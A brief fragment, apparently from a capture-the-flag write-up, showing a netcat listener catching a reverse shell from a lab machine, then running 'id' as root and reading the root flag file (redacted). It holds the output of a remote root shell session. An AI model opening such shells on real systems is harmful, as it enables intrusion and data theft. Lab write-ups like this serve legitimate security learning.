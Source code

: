 ```

listening on [any] 6868 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.143] 34990
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt
d4xxxxxxxxxxxxxxxxxxxxxxxxxxxx71

```

:)



